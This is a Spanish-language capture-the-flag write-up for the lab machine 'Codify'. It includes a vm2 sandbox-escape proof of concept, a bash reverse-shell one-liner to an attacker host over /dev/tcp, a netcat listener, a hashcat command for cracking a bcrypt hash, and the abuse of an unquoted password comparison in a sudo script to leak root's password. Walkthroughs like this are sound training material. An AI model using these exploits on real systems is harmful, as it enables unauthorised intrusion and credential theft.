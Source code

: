 ```yaml
---
title: "Codify"
date: "2025-03-07T00:04:43-05:00"
type: "maquinas"
draft: false
tags: ["python", "sudoers", "linux", "pspy", "vm2", "sqlite3", "nodejs"]
---
```


### Descripción:
Maquina muy entretenida que nos enseña a explotar una vulnerabilidad en la libreria vm2 para luego mediante una base de datos conseguir la flag de usuario para escalar privilegios mediante un permiso de sudoers que por una mala configuracion nos permite listar la contraseña de root.

# Enumeración

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn IP -oG allPorts
nmap -sCV -p22,80,3000 -A -oN target IP
```

<a href="https://imgur.com/nKoR4C8"><img src="https://i.imgur.com/nKoR4C8.png" title="source: imgur.com" /></a>

Si tratamos de usar gobuster no encontraremos ningun subdominio ni subdirectorio interesante por lo que no lo voy a mostrar.

## Puerto 80

<a href="https://imgur.com/k6NZ39V"><img src="https://i.imgur.com/k6NZ39V.png" title="source: imgur.com" /></a>

<a href="https://imgur.com/vlx4cMA"><img src="https://i.imgur.com/vlx4cMA.png" title="source: imgur.com" /></a>

Podemos ver como tenemos la posibilidad de ejecutar comandos `node.js` usando la libreria vm2 ademas de esto no vamos a encontrar nada más intreresante por lo que vamos a buscar vulnerabilidades de la libreria.

Encontraremos la siguiente poc para la libreria en github que es la que vamos a estar usando [POC](https://gist.github.com/seongil-wi/2a44e082001b959bfe304b62121fb76d).

```jsx
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('touch pwned');
}
`

console.log(vm.run(code));
```

<a href="https://imgur.com/EwJLJfF"><img src="https://i.imgur.com/EwJLJfF.png" title="source: imgur.com" /></a>

# User

Ya con esto vamos a poder ejecutar comandos y asi montar una revshell,  nos dirigiremos a la pagina [RevShells](https://www.revshells.com/) y en nuestra poc ejecutaremos el siguiente comando:

```bash
#Primero ponte en escucha en tu maquina (el siguiente comando)
bash -c "/bin/bash -i >& /dev/tcp/IP/PUERTO 0>&1" 
```

Y nos pondremos en escucha con netcat en nuestra maquina local:

```bash
nc -lvnp PUERTO
```

Ya con esto le pediremos a la pagina que ejecute nuestro codigo.

<a href="https://imgur.com/BgatqgV"><img src="https://i.imgur.com/BgatqgV.png" title="source: imgur.com" /></a>

Listo lo primero es hacer el tratamiento de la `tty`:

```bash
script /dev/null -c bash
Ctrl + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
```

Ya en esta parte con find podemos encontrar una base de datos:

```bash
find /var/www/ -name *.db 2>/dev/null
```

Y veremos que hay una base de datos, usando file nos daremos cuenta que es una base de datos `sqlite`:

<a href="https://imgur.com/oYNhrQB"><img src="https://i.imgur.com/oYNhrQB.png" title="source: imgur.com" /></a>

Con esto podremos ver la base de datos que dentro tiene un hash:

<a href="https://imgur.com/YydnXgR"><img src="https://i.imgur.com/YydnXgR.png" title="source: imgur.com" /></a>

Y con el siguiente comando de hashcat podremos obtener la contraseña para ingresar como `joshua`:

```bash
hashcat hash.txt --wordlist /usr/share/wordlist/rockyou.txt -m 3200
```

# Root

<a href="https://imgur.com/GNcDqoF"><img src="https://i.imgur.com/GNcDqoF.png" title="source: imgur.com" /></a>

Enumerando encontramos este script que tenemos permiso de ejecutar como sudo:

<a href="https://imgur.com/AGLmyCR"><img src="https://i.imgur.com/AGLmyCR.png" title="source: imgur.com" /></a>

Si vemos el script esta mal montado por lo que cuando pida la contraseña podemos usar el * y nos dira que es correcto esto debido a que si no usamos dobles comillas para esas variables `DB_PASS` y `USER_PASS` podemos usar el * de forma que sin importar cual se la contraseña nos la dara como correcta esto tambien nos habilita la opcion de obtener la contraseña con python. Aquí un ejemplo de porque esto pasa:

<a href="https://imgur.com/WVdk3uj"><img src="https://i.imgur.com/WVdk3uj.png" title="source: imgur.com" /></a>

Para poder interceptar la contraseña vamos a usar [pspy](https://www.notion.so/Pspy-1a1094373800803aaa8bcb2094703815?pvs=21) igual que en las anteriores maquinas que lo hemos usado.

<a href="https://imgur.com/gLNcKij"><img src="https://i.imgur.com/gLNcKij.png" title="source: imgur.com" /></a>

Y ahi tenemos la contraseña.

> Si tienen curiosiodad de como se hacia mediante el script de python pueden ver esta parte del directo de [s4vitar](https://youtu.be/H7-Jd6HaLbI?t=2129).
>
